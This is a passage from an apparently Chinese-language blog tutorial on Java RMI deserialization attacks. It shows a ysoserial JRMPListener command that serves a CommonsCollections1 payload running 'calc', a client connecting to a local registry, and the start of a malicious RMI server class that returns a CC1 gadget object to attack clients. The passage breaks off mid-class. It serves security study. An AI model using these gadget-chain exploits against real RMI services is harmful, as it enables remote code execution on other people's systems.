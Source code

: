 ```
java -cp .\ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'calc'
```

然后使用客户端去访问：

JAVA

```
import java.rmi.Naming;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
 
public class Client {
    public static void main(String[] args) throws RemoteException {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        registry.list();
    }
}
```

![img](https://drun1baby.top/2022/07/23/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BRMI%E4%B8%93%E9%A2%9802-RMI%E7%9A%84%E5%87%A0%E7%A7%8D%E6%94%BB%E5%87%BB%E6%96%B9%E5%BC%8F/RegistryAttackClient.png)

#### 服务端攻击客户端

服务端攻击客户端，大抵可以分为以下两种情景。

1. 服务端返回Object对象
2. 远程加载对象

##### 服务端返回Object对象

在RMI中，远程调用方法传递回来的不一定是一个基础数据类型（String、int），也有可能是对象，当服务端返回给客户端一个对象时，客户端就要对应的进行反序列化。所以我们需要伪造一个服务端，当客户端调用某个远程方法时，返回的参数是我们构造好的恶意对象。这里以CC1为例：

- User接口，返回的是Object对象

JAVA

```
public interface User extends java.rmi.Remote {
    public Object getUser() throws Exception;
}
```

- 服务端实现 User 接口，返回 CC1 的恶意 Object 对象

JAVA

```
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.io.Serializable;  
import java.lang.annotation.Retention;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.InvocationTargetException;  
import java.lang.reflect.Proxy;  
import java.rmi.RemoteException;  
import java.rmi.server.UnicastRemoteObject;  
import java.util.HashMap;  
import java.util.Map;  
  
public class ServerReturnObject extends UnicastRemoteObject implements User  {  
```